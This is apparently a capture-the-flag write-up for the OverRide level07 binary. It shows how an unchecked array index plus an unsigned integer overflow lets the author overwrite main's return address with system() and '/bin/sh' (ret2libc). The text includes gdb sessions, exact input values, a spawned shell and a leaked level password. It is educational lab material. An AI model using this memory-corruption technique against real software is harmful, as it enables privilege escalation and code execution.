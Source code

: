 # Level 07

<h3>source.c</h3>

```console
The source for this program is quite long
So i will not include it in this file, and can be check in the source.c directly if needed
```

<h3>Analysis</h3>

This is a program which allowed us to `store` and `read` number into the memory, for example below:

```console
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 1111
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 1111
 Completed read command successfully
Input command: quit
```

All of the function in this program is protected, appart from the storing and reading of the data.

It was stored in this way `data[index] = nb` where `data` is the array of numbers, `nb` and `index` are the input that we typed in

This way is very unsafe as the we could potentially store the `nb` into any `index` that we want to, and possibly into the `RET` address as well

Our goal will be to find the correct `index` to overwrite the `RET` and point to `system()` in `libc`

<h3>Exploit</h3>

Lets set a breakpoint at the start of every loop so we can analyze the state of the stack after every command

```
(gdb) break *0x08048854           -> breakpoint at `main()` at `the printf("Input command: ")`
Breakpoint 1 at 0x8048854
```

Now lets run the program and store some value into the stack

```console
(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------


Breakpoint 1, 0x08048854 in main ()
(gdb) c
Continuing.
Input command: store
 Number: 1111                                     -> doesnt matter, but 1111 = 0x457 in hex, so we will look for this value in the stack
 Index: 1                                         -> store at the 1st index so we could know where is the start of the stack
 Completed store command successfully

Breakpoint 1, 0x08048854 in main ()
(gdb) i r                                         -> info register to look at the address of esp and ebp
eax            0x8048d4b	134516043
ecx            0x0	0
edx            0x0	0
ebx            0xffffd504	-11004
esp            0xffffd4e0	0xffffd4e0
ebp            0xffffd6c8	0xffffd6c8
esi            0xffffd69d	-10595
edi            0x8048d60	134516064
eip            0x8048854	0x8048854 <main+305>
eflags         0x286	[ PF SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99

(gdb) x/124wx $esp
0xffffd4e0:	0x08048d88	0xffffd698	0xf7fcfac0	0xf7fdc714
0xffffd4f0:	0x00000098	0xffffffff	0xffffd7c8	0xffffd768
0xffffd500:	0x00000000	0x00000000	0x00000457	0x00000000   -> we found the 0x457 here at `0xffffd508` so this should be the index 1 of the `data`
0xffffd510:	0x00000000	0x00000000	0x00000000	0x00000000      since `0xffffd508` is index 1, the index 0 should be located at `0xffffd504`
[...]
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0xdf583a00
0xffffd6b0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0xf7e45513   -> base on info register, ebp is locatied at `0xffffd6c8`, and RET normally follow after
                                                                so the return address should be at `0xffffd6cc`
```

Now that we have the address of the `data` and the `RET` of the `main()`, lets calculate their distance

```console
(RET) - (data) = 0xffffd6cc - 0xffffd504 = 456
```

The distance between `data` and `RET` is `456 bytes` and since data contains `unsigned int` where each data is `4 bytes`, we need to divide the distance by 4 to get the index (456 / 4) = 114, lets try it!

```console
Input command: store
 Number: 1111
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

Unfortunately inde 114 is not usable, this is due to inside the `store_number()` there is a protection `(index % 3 == 0)`

Since `114 % 3 = 0` the program will reject our input.

But since the input is readed by using `scanf("%u", &nb)`, which means that every number we give will be an `unsigned int`

We could profit from the `int overflow`!

```console
Target distance = 456 bytes
| 0000 0000 0000 0000 0000 0000 0000 0000 |
| 0000 0000 0000 0000 0000 0001 1100 1000 |

Overflow it by turn on the 33th bit and the value will become 4294967752
| 0000 0000 0000 0000 0000 0000 0000 0001 |
| 0000 0000 0000 0000 0000 0001 1100 1000 |

Now we need to divide it by 4 and it will become 1073741938
| 0000 0000 0000 0000 0000 0000 0000 0000 |
| 0100 0000 0000 0000 0000 0000 0111 0010 |

Since the int only care about the first 7 bits, we can ignore the rest
| 0000 0000 0000 0000 0000 0000 0000 0000 |
| 0100 0000 0000 0000 0000 0000 0111 0010 |
                    |
| igno|0000 0000 0000 0000 0000 0111 0010 |

0000 0000 0000 0000 0000 0111 0010 = 114
```

From the calculation above, we can see that by giving `1073741938` as the `index`, it will be treated as `114`, lets test it!

```console
Input command: store
Number: 1111
Index: 1073741938
Completed store command successfully

(gdb) x/124wx $esp
0xffffd4e0:	0x08048d88	0xffffd698	0xf7fcfac0	0xf7fdc714
[...]
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000457  -> RET is succesfully written!
```

Great! we did it, all that is left is to get the `system()` and `/bin/sh`

```console
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

Now all the is left is to write `0xf7e6aed0 (4159090384)` to index `114 (1073741938)` and `0xf7f897ec (4160264172)` into index `116`

```console
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```


